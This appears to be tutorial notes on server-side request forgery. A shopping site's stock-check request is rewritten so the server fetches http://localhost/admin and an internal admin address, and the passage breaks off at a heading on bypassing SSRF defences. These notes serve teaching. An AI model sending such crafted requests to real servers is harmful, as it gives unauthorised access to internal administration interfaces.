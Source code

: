 
## Common Attacks

Attacks Against the Server Itself
- Attacker induces the application to make an HTTP request back to the server that is hosting the application (via loopback)
- Involves supplying the URL with a hostname like 127.0.0.1 or localhost
- Example code -- shopping application that allows user to check stock
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D
6%26storeId%3D1
```
	- Makes request to the URL
	- Retrieves the stock status
	- Return to the user
- Modify this for an attack:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://localhost/admin
```
	- Server fetches contents of the /admin url and returns to the user
	- Authenticates as the machine/server itself

Attacks Against Other Systems
- Assume there is an administrative interface at https://192.168.0.68/admin
- Attack can exploit and access this:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

Circumventing Common SSRF Defenses